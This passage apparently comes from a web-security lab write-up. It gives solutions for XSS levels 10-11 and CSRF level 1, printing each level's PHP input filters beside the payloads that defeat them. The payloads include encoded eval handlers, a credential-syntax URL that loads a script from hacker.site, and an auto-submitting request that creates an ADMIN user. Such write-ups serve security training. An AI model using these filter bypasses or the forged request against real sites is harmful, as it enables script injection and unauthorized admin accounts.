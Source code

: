 ```bash
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```
## Level 10
```bash
// No more string ...
$search = preg_replace("#[\'\"+]#", "", $search);
// ... no more alert ...  
$search = preg_replace("#alert#is", NOALERT, $search);
// ... no no more alternative ways!
$search = preg_replace("#.source#is", "", $search);
$search = preg_replace("#.fromCharCode#is", "", $search);
```
Use of alert in base 30 and l33t in base 36:
```bash
<script>eval(8680439..toString(30))(983801..toString(36))</script>
```
## Level 11
```bash
// No scripts from untrusted origins or you\'ll see a nice gorilla
   preg_match('#^(?:https?:)?\/\/11.xss.labs\/#is', urldecode($search), $matches);   
   if(empty($matches)) $search = "...untrusted...";   

   // don\'t break the src tag   
   $search = preg_replace('#"#', "", $search);
   // ehehe and now? Are you still a ninja?
   $search = strtoupper($search);
```
Injection of script from external site with origin bypass as creds:
```bash
http://11.xss.labs%2f@hacker.site/x.js
```

# CSRF
## Level 1
No checks:
```html
<html>
<script type="text/javascript">
   var url =  "http://{LABID}.csrf.labs/add_user.php";
   var params =  "name=Malice&surname=Smith&email=malice23%40hacker.site&role=ADMIN&submit=";
   var CSRF = new XMLHttpRequest();
   CSRF.open("POST", url, true);
   CSRF.withCredentials = 'true'; //IMPORTANT MUST!!
   CSRF.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
   CSRF.send(params);
</script>
</html>
```
